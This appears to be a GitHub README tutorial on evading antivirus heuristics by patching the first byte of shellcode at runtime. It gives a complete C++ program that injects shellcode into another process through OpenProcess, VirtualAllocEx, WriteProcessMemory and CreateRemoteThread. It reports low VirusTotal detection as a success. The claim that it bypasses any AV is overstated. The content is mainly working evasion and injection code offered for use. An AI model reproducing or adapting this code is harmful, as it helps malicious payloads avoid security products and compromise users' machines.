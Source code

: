 # Introduction To AV Evasion
![image](https://user-images.githubusercontent.com/107004485/180807564-63e7f01c-ecb2-4016-b33c-38fd6af93680.png)

- In This Article I Will Learn You How To Bypass Any AV That Use Heuristic Based Detection Like MS Winodows Defender Using 1 Byte Change.
- We Will Explain All This Things, Keep Reading 
## What's An AV?
- First AV is the acronym for **“Antivirus”**, AV Is A Software Scan, Detect And Delete Viruses In A Computer.
### Virus Detection Techniques
- We Have 3 Detection Techniques:
  - Signature Based: Can Detect Only Viruses With Definition File About The Virus.
  - Heuristic Based: Can Detect Virus That Didn't Appeared Yet Or Already Appeared.
  - Behavior Based: Can Analyze Only Objects Behavior Or Potential Behavior.
# The 1 Byte Change Technique How It Works?
![image](https://user-images.githubusercontent.com/107004485/180821692-547f87b6-eea5-46ef-bb5a-7ef41592fc5d.png)

- I Will Give You An Example With A Shellcode Injection Technique:

  - Our Shellcode Is This(Thats Just A Simple Example): **"\x42\x81\x3e\x47\x65\x74\x50\x75\xf2\x81\x7e\x04"**
**"\x72\x6f\x63\x41\x75\xe9\x8b\x75\x24\x03\xf3\x66"**
    
    - If We Injected This Shellcode Into A Process, Windows Defender And Some AVs Will Detect It Easy, But If We Used 1 Byte Change Technique AVs Will Never Detect It.
- The Concept Of The Technique Its Like The Name Of The Technique, We Should Change The First Byte Of Our Shellcode, Put The Orginal First Byte In Another Variable And Delete It From The Shellcode And We Will Use [memcpy()](https://docs.microsoft.com/en-us/cpp/c-runtime-library/reference/memcpy-wmemcpy) To Copy The Orginal First Byte To The Shellcode 
                                                      
# We Will Do A Simple Program To Explain More About This Technique
![image](https://user-images.githubusercontent.com/107004485/180872439-983b4cf8-0240-4469-b7a4-85302597f517.png)

- Source Code Of My Program:
```C++
#include <iostream>
#include <Windows.h> 
using namespace std;
int main(void) {
    HANDLE ProcessH;
    PVOID RemoteBuff;
    HANDLE cRemoteThread;
    string szProcess;
    unsigned char shellcode[] =
        "\x31\xc9\x64\x8b\x49\x30\x8b\x49\x0c\x8b\x49\x1c"
        "\x8b\x59\x08\x8b\x41\x20\x8b\x09\x80\x78\x0c\x33"
        "\x75\xf2\x8b\xeb\x03\x6d\x3c\x8b\x6d\x78\x03\xeb"
        "\x8b\x45\x20\x03\xc3\x33\xd2\x8b\x34\x90\x03\xf3"
        "\x42\x81\x3e\x47\x65\x74\x50\x75\xf2\x81\x7e\x04"
        "\x72\x6f\x63\x41\x75\xe9\x8b\x75\x24\x03\xf3\x66"
        "\x8b\x14\x56\x8b\x75\x1c\x03\xf3\x8b\x74\x96\xfc"
        "\x03\xf3\x33\xff\x57\x68\x61\x72\x79\x41\x68\x4c"
        "\x69\x62\x72\x68\x4c\x6f\x61\x64\x54\x53\xff\xd6"
        "\x33\xc9\x57\x66\xb9\x33\x32\x51\x68\x75\x73\x65"
        "\x72\x54\xff\xd0\x57\x68\x6f\x78\x41\x01\xfe\x4c"
        "\x24\x03\x68\x61\x67\x65\x42\x68\x4d\x65\x73\x73"
        "\x54\x50\xff\xd6\x57\x68\x72\x6c\x64\x21\x68\x6f"
        "\x20\x57\x6f\x68\x48\x65\x6c\x6c\x8b\xcc\x57\x57"
        "\x51\x57\xff\xd0\x57\x68\x65\x73\x73\x01\xfe\x4c"
        "\x24\x03\x68\x50\x72\x6f\x63\x68\x45\x78\x69\x74"
        "\x54\x53\xff\xd6\x57\xff\xd0";
    size_t dwSize = sizeof(shellcode);
    char FirstByteOfShellcode[] = "\x33";
    ProcessH = OpenProcess(PROCESS_ALL_ACCESS, false, 1111);
    RemoteBuff = VirtualAllocEx(ProcessH, 0, dwSize, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    memcpy(shellcode, FirstByteOfShellcode, 1);
    WriteProcessMemory(ProcessH, RemoteBuff, shellcode, dwSize, 0);
    cRemoteThread = CreateRemoteThread(ProcessH, 0, 0, (LPTHREAD_START_ROUTINE)RemoteBuff, 0, 0, 0);
    CloseHandle(ProcessH);
    return EXIT_SUCCESS;
}
```
- Explaining My Program:
	- [OpenProcess()](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-openprocess) For Opening An Existing Process.
	- [VirtualAllocEx()](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex) For Changing The State Of The Region Of Memory.
	- [memcpy()](https://docs.microsoft.com/en-us/cpp/c-runtime-library/reference/memcpy-wmemcpy) For Copying The Original First Byte To The Fake First Byte In The 	Shellcode
	- [WriteProcessMemory()](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory) For Copying Data From Shellcode To The 		Address Range Of The Process.
	- [CreateRemoteThread()](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createremotethread) For Creating A Thread 	     That Run In The Virtual Address Space We Create It With The [VirtualAllocEx()](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex)

# How Many Malwares Engines Detect My Program?
- I Tried [VirusTotal](https://virustotal.com) Because It Uses A Lot Of Malware Engines:
	- Link Of The Scan In VirusTotal : https://www.virustotal.com/gui/file/3886163eaf2b7ed9026720f68d9ce092f02f68d129eab415b9b046951c5b230e?nocache=1
		
		![image](https://user-images.githubusercontent.com/107004485/180881801-b04d1d7d-dd00-45a7-aa8e-39e7d4bf6923.png)
- This Is A Good Thing To See Because We Have Reached A Good Level In Bypassing AVs.

![image](https://user-images.githubusercontent.com/107004485/180884422-d0ee96c7-acc0-45f5-9cfc-3e4d0f4acabd.png)
# Some Memes
![image](https://user-images.githubusercontent.com/107004485/180885110-af0d02eb-9e4c-4b51-871c-674e53c325d0.png)
![image](https://user-images.githubusercontent.com/107004485/180885746-5ce4203d-14bb-405b-b51e-dda84d6d86ca.png)
![image](https://user-images.githubusercontent.com/107004485/180886109-37581ab0-242a-47fe-bf93-d77aa487f026.png)